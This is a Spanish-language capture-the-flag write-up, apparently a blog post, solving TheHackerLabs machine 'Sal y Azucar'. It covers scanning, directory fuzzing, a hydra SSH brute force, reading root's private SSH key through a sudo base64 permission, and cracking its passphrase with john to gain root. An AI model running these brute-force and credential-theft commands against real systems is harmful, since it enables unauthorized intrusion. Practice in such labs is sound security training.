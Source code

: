 ```yaml
---
layout: post
title: "Sal y Azucar"
date: 2024-06-14 10:55:23
category: sample
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Sal y Azucar </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/sal-y-azucar/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/SalyAzucar/host.png){:.margin}

**1\.** Escaneo dispositivos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/SalyAzucar/arp.png){:.margin}

**2\.** Escaneo puertos y servicios en la maquina.

`sudo nmpa -p- --open -n -Pn -sCV --min-rate=5000 -T5 192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/nmap.png){:.margin}

**3\.** En la web tenemos el apache por defecto.

`http://192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/80.png){:.margin}

**4\.** Hago fuzzing de directorios y archivos.

`gobuster dir -u http://192.168.1.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/thehackerlabs/SalyAzucar/gobuster.png){:.margin}

**5\.** Dentro de summary encuentro un html, este me da un mensaje.

`http://192.168.1.6/summary/summary.html`

![img](/notas/public/img/thehackerlabs/SalyAzucar/summary.png){:.margin}

**6\.** Tras no tener mas nada, hago bruteforce al ssh tanto al usuario como la contraseña.

`hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P /user/share/wordlists/rockyou.txt ssh://192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/hydra.png){:.margin}

**7\.** Accedo por el ssh.

`ssh info@192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/ssh.png){:.margin}

**8\.** Revisando los permisos sudo.

`sudo -l`

![img](/notas/public/img/thehackerlabs/SalyAzucar/sudol.png){:.margin}

**9\.** Ya que podemos ejecutarlo como root, encodeo y decodeo el id_rsa de root.

`sudo base64 /root/.ssh/id_rsa | base64 -d`

![img](/notas/public/img/thehackerlabs/SalyAzucar/base64.png){:.margin}

**10\.** Crackeando un passphrase del id_rsa de root.

_10.1- Lo guardo en un archivo_

`nano id_rsa`

![img](/notas/public/img/thehackerlabs/SalyAzucar/idrsa.png){:.margin}

_10.2- Usando john para encontrar el passphrase_

`ssh2john id_rsa > key`

`john --wordlist=/usr/share/wordlists/rockyou.txt key`

![img](/notas/public/img/thehackerlabs/SalyAzucar/john.png){:.margin}

**11\.** Obteniendo el super usuario.

_11.1- Le doy los permisos pertinentes la idrsa_

`chmod 600 id_rsa`

![img](/notas/public/img/thehackerlabs/SalyAzucar/chmodidrsa.png){:.margin}

_11.2- Accediendo por ssh_

`ssh -i id_rsa root@192.168.1.6`

![img](/notas/public/img/thehackerlabs/SalyAzucar/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>
